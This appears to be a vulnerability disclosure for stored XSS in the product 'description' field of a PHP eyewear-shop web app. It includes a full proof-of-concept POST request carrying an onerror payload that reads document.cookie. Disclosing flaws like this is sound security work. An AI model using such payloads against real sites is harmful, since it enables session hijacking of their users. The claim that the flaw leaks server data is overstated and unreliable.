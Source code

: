 ## Online optical shop website has XSS vulnerability

## Affected version: 
Online Eyewear Shop Website - 1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
/oews/classes/Master.php?f=save_product

## Description:
The online eyewear store website 1.0 has an XSS attack in /oews/classes/Master.php?f=save_product. The attack parameter is description. An attacker can exploit this vulnerability to directly obtain sensitive information from the server.

Status: Moderate

POC
```
POST /oews/classes/Master.php?f=save_product HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------131405002413969045363430851847
Content-Length: 1195
Origin: http://localhost
Connection: close
Referer: http://localhost/oews/admin/?page=products/manage_product&id=1
Cookie: PHPSESSID=e8a2fnat0qfqfbb3m0uv0i8sgc
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="id"

1
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="brand"

## Brand 101
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="name"

Sunglasses 101
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="category_id"

2
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="description"

<img src=1 onerror=alert(document.cookie)>
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="price"

355.99
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="status"

1
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------131405002413969045363430851847--
```

```
Through <img src=1 onerror=alert(document.cookie)>, the logged-in user cookie can be directly obtained, which is a storage-type XSS.
```
![CleanShot 2025-04-08 at 21 38 46@2x](https://github.com/user-attachments/assets/ddac827d-1054-4a15-bee9-57a168808f2a)

The cookie can also be directly obtained when the user browses the page, indicating that the payload has been inserted into the database.
![CleanShot 2025-04-08 at 21 39 29@2x](https://github.com/user-attachments/assets/ac530ddf-8671-46dd-8cd4-0a3b90ad8d7f)



